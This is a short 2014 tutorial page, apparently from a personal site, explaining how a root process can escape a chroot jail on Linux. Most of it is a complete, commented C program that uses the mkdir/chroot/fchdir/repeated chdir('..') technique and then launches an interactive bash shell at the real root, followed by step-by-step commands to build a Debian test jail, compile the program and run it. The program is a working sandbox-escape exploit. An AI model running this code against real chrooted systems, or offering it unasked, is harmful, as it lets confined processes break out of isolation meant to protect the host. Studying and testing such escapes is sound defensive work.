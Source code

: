 <h1 class="header">Chroot Escaping</h1>
</br>
*09 November 2014* | [Revision History](https://github.com/sevaivanov/kedfilms/commits/master/frontend/static/frontend/md/hacks/chroot.md)

FD:

A [F]ile [D]escriptor is a pointer to a file.

Each Process has a working directory.
</br></br>

Chroot():

Says to everyone:  Hey, it's the new root!

It changes **sometimes** their working directory to this new root.

Everyone (processes) is locked in this place & not aware of a higher location.


# Using C & gcc

Tested on Debian Wheezy 3.2

Jargon:

1. Real Root : System root
2. Mother Root : Where we are locked, chrooted into.
3. Sub Jail: A new jail that we create in the Mother Root.

## chroot-escape.c

      #include <sys/stat.h>
        #include <unistd.h>
        #include <fcntl.h>

        // printf()
        #include <stdio.h>
        // exit()
        #include <stdlib.h>

        int main()
        {
            int jail_fd;

            /*
                Not root? Set the effective user id to 0, root.
                Priviledged status depends only on the effective UID      
                http://unixpapa.com/incnote/setuid.html
            */
            if (getuid() != 0)
            {
                // printf("%d", geteuid());
                setuid(0);
            }

            /*
                Return a FD of current jail directory (Mother Jail).
                It's a pointer to the mother jail.
                Original chroot() call did not close his FD.
            */
            jail_fd = open(".", O_RDONLY);

            /*
                We need to go inside a Sub Jail created by us.
                You can NOT close your Mother Jail while inside.
            */
            mkdir("cell", 0755);
            chroot("cell");

            /*
                Let's go outside of our new jail to the motherjail.
                Everyone thinks our root is the [yourjail/].
                Since we're root, the system can't stop us.
                We have to refer by a FD because we don't know its path.
            */
            fchdir(jail_fd);

            /*
                Let's close the FD.
                All of the resources of this FD will be freed.
                The mother jail is shut down!
                We're outside of the Sub Jail created by us somewhere we don't know.
            */
            close(jail_fd);

            /*
                Let's go higher & higher to touch the skies!
                Going too high will be interpreted as going to root.
            */
            int i;
            for(i = 0; i < 1000; i++)
            {
                chdir("..");
            }

            // Chroot to the real root place.
            chroot(".");

            // Run an interactive shell from there.
            return execl("/bin/bash", "-i", NULL);
        }


Inspired from [filippo.io](https://filippo.io/escaping-a-chroot-jail-slash-1)

## How to test:

1. Make a jail

        apt-get install binutils debootstrap
          mkdir -p /jails/yourjail
          debootstrap --arch i386 wheezy /jails/yourjail http://http.debian.net/debian
          touch /jails/yourjail/IN_JAIL_NOW

    Inspired from [debian docs](https://wiki.debian.org/chroot).

2. Compile to executable into yourjail

        gcc -static -o jails/yourjail/escape jails/chroot-escape.c

3. Chroot into yourjail

        chroot /jails/yourjail

4. Escape

        ./escape && ls

<p class="footer"></p>
